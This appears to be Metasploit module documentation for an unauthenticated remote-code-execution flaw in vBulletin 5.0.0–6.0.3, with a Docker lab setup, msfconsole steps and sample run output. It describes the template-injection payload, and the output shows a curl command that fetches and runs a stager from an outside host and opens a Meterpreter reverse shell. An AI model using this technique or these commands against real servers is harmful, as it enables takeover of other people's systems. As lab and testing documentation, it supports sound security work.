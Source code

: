 ## Vulnerable Application

This Metasploit module exploits a design flaw in vBulletin’s AJAX API handler and template
rendering system, affecting **vBulletin 5.0.0 through 6.0.3** on **PHP 8.1+**.
An unauthenticated attacker can invoke the protected `vB_Api_Ad::replaceAdTemplate()` method to inject a malicious template that calls
`"system"("base64_decode"($_POST[<param>]))`, then trigger execution via the `ajax/render/ad_<location>` endpoint,
yielding arbitrary code execution as the webserver user.

> **Note:** vBulletin is commercial software and is **not** included here. You must obtain a licensed copy and extract it under `./upload/`.

---

## To replicate vulnerable environments

1. **vBulletin 6.0.1 (tested)**

   * Purchase and download vBulletin 6.0.1 from the official portal.
   * Extract all files into `./upload/`.

2. **Other versions (5.0.0–6.0.3)**

   * Repeat the above with any of the supported versions.
   * Ensure you run on PHP 8.1+; earlier PHP versions do not expose this flaw.

---

## Docker Compose Configuration

```yaml
services:
  db:
    image: mysql:5.7
    container_name: vbulletin_db
    restart: unless-stopped
    environment:
      MYSQL_ROOT_PASSWORD: root_password_here
      MYSQL_DATABASE: vbulletin
      MYSQL_USER: vbulletin
      MYSQL_PASSWORD: vb_password_here
    volumes:
      - db_data:/var/lib/mysql

  web:
    build: .
    container_name: vbulletin_web
    depends_on: [db]
    ports: ["8888:80"]
    environment:
      VB_DB_HOST: db
      VB_DB_NAME: vbulletin
      VB_DB_USER: vbulletin
      VB_DB_PASS: vb_password_here

volumes:
  db_data:
```

Create the following **Dockerfile** and **docker-entrypoint.sh** in the same directory:

**Dockerfile**

```dockerfile
FROM php:8.1-apache

COPY upload/ /var/www/html/

RUN apt-get update && \
    apt-get install -y --no-install-recommends \
       libzip-dev zlib1g-dev libonig-dev \
       libpng-dev libjpeg-dev libfreetype6-dev && \
    docker-php-ext-install \
       zip mysqli pdo_mysql gd mbstring && \
    a2enmod rewrite && \
    rm -rf /var/lib/apt/lists/*

RUN echo "phar.readonly=Off" > /usr/local/etc/php/conf.d/vbulletin.ini

COPY --chmod 755 docker-entrypoint.sh /usr/local/bin/
ENTRYPOINT ["docker-entrypoint.sh"]
CMD ["apache2-foreground"]
```

**docker-entrypoint.sh**

```bash
#!/bin/bash
chown -R www-data:www-data /var/www/html
exec "$@"
```

---

## Verification Steps

1. **Start the environment**
```bash
docker-compose up -d
```

2. **Install vBulletin**
Open [http://localhost:8888](http://localhost:8888) and complete the installation:

* **Database Host:** db
* **DB Name:** vbulletin
* **DB User:** vbulletin
* **DB Password:** vb_password_here

3. **Run `msfconsole`**

```bash
use exploit/multi/http/vbulletin_replace_ad_template_rce
set RHOSTS 127.0.0.1
set RPORT 8888
set TARGETURI /
check
```

---

## Options

No option

---

## Scenarios

### Unauthenticated Pre-Auth RCE

1. Ensure vBulletin 5.0.0–6.0.3 is installed and running on PHP 8.1+.
2. In `msfconsole`, configure and run:

```bash
set RHOSTS localhost
set RPORT 8888
set TARGETURI /
```

---

## Expected Results

### With `cmd/linux/http/x64/meterpreter/reverse_tcp`

```plaintext
msf6 exploit(multi/http/vbulletin_replace_ad_template_rce) > run http://lab:8888
[*] Command to run on remote host: curl -so ./BGZuzbsi http://192.168.1.36:8080/LoPlnjEpeOexZNVppn6cAA;chmod +x ./BGZuzbsi;./BGZuzbsi&
[*] Fetch handler listening on 192.168.1.36:8080
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Starting vulnerability check on 127.0.0.1:8888/
[*] Generating random marker and condition for mode check
[*] Sending POST to ajax/api/ad/replaceAdTemplate (location=QuFcp)
[*] Injection response: HTTP 200
[+] Marker found in injection response body
[+] The target is vulnerable.
[*] Generating random marker and condition for mode exploit
[*] Sending POST to ajax/api/ad/replaceAdTemplate (location=XSGFS)
[*] Client 172.28.0.3 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 172.28.0.3 (curl/7.88.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.28.0.3
[*] Meterpreter session 8 opened (192.168.1.36:4444 -> 172.28.0.3:53014) at 2025-05-29 16:27:00 +0200

meterpreter > sysinfo
Computer     : 172.28.0.3
OS           : Debian 12.11 (Linux 6.14.8-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
